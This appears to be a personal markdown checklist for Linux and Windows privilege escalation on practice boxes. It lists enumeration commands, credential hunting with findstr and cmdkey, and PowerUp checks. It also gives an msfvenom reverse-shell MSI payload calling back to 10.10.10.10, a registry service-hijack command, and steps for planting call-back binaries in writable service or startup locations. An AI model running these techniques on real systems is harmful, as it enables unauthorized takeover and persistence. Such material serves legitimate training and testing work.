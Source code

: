 - [ ] when ```www-data``` shell is obtained upload a linenum scripts and run it
- [ ] look for <br />
        1. Files with unwanted permissions <br />
        2. Files with SETUID binaries ```find / -perm -4000``` <br />
        3. Look for Cron Jobs `cat /etc/crontab or crontab -l `<br />
- [ ] always look for the users in the ```/home``` dirs, the passwords that found during the enumeartion phase will be the same password for the user as well
- [ ] ```sudo -l``` should be checked must
- [ ] Make a note of all password yoiu come accross the way to the shell and try ```su - <user>``` and try each passwords
- [ ] Keep an eye on the ```groups``` that the user belongs to
- [ ] After gaining the shell look for `network activity` of the machine
- [ ] While running the enumeration scripts, look for the network activities
- [ ] When Binaries execute, `strace <binary>` strace it and look for the things it executes `exec`
- [ ] Check for sudo versions and exploits `sudo --version`


#### Windows
### Windows PrivEsc

- [ ] once you get the revershell, look for `current user` and `system informations`
- [ ] Look for open vulns with `kbid` with the command `wmic qfc` 
> WE CANT EXPECT IT TO WORK ON ALL BOXES
- [ ] Check for password files stored in clear text, `findstr /si password *.txt *.ini *.config *.xml`
- [ ] Always look for `unattended.xml` for passwords leak
- [ ] Upload files for testing in the `temp` directory `C:\\temp\\`
- [ ] Look for things in registry with `reg query` 
- [ ] Look for auto login from the `registry` which enumerates username
- [ ] When you see internal services running and not shown in nmap scan, better to do port forwarding
- [ ] If WSL is available in the machine, look for related vulnerabilities
- [ ] Look at the priviledges available for the user `whoami /priv`, if `SeImpersonatePriviledge` is enabled use it
- [ ] Look for alternate data streams when the specified file is not found `dir /R` and look the contents of the alternate data streams with `more < $FILE_NAME`
- [ ] Check for `runas` commands when a low level shell is obtained
> RUNAS ALLOWS US TO RUN APPLICATIONS AS ANOTHER USER
- [ ] Look for stored credentilas in the machine `cmdkey /list`
- [ ] If the credentials for the particular user is enumerated via cmdkey /list, execute all commands as that specific user with `runas.exe /user:domainName\userName /savecred "<command to execute>"`
- [ ] Check for `autorun` progs and look for ways if it can be leveraged `accesschk64.exe -wvu <path>`
- [ ] Check for `autorun` progs with `PowerUp.ps1`, if any file found with all access (read,write for everybody) generate a payload and replace it in its folder with the same name which wil run and obtain us a reverse shell
- [ ] Check for `always install packages` as elevated
- [ ] Check for full control over a `registry key` which allows to install malicious 
- [ ] Check for files that execute and have write access
- [ ] Check for startup-application are vulnerables
- [ ] Check for processes with `powersploit`


##### Notes
```bash
- [ ] Check for `autorun` progs and look for ways if it can be leveraged `accesschk64.exe -wvu <path>`
- [ ] Check for `autorun` progs with `PowerUp.ps1`, if any file found with all access (read,write for everybody) generate a payload and replace it in its folder with the same name which wil run and obtain us a reverse shell
# start powershell from cmd with execution policy bypass mode
powershell -ep bypass
# start the PowerUP.ps1
. .\PowerUp.ps1
# Get the all items
Invole-AllChecks 
```

```bash
- [ ] Check for `always install packages` as elevated
# check for auto install elevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
# Always install elevated value = 1 in both the commands
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
# generate a msfvenom msi payload and install it
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.10 lport=4444 -f msi -o setup.msi
# elevate from the output of PowerUp.ps1, it shows the command
Write-UserAddMSI
# install it and obtain a new user in the administrators group
```

```bash
- [ ] Check for full control over a `registry key` which allows to install malicious 
# get the access control list of the registry regsvc
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
# windows_service.c is used for service hijacking
# adding the malicious executable to the registry 
# save the entry with the name(valuename)(/v) ImagePath(reg key that contains the path of the drivers image files ) and runthe string(/t = mentions the type, REG_EXAPND_SZ - tells we are going to run a string here) that follows which is a data(/d) and execute the file, dont show any confirmations(/f)
reg add HKML\System\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
# start the registry service
sc start regsvc
```


```bash
- [ ] Check for files that execute and have write access
# like finding binaries with write access 'like in traceback machine'
#running the PowerUp.ps1 we can find the same under the `Checking Service Executables adn argument permissions`
# over write the malicious(generated with msfvenom) exe with the exe that is found with write permissions
# start over the application which is running as service with the command, `sc start <service_name>`
```

```bash
- [ ] Check for startup-application are vulnerables
# check the startup applications
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startp"
# if full access is available, makesure to create a malicious program which call backs home and place it in the startup folder(C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startp)
# when logged out and logged in, as the startup program kicks in, the reverse shell will be obtained
```
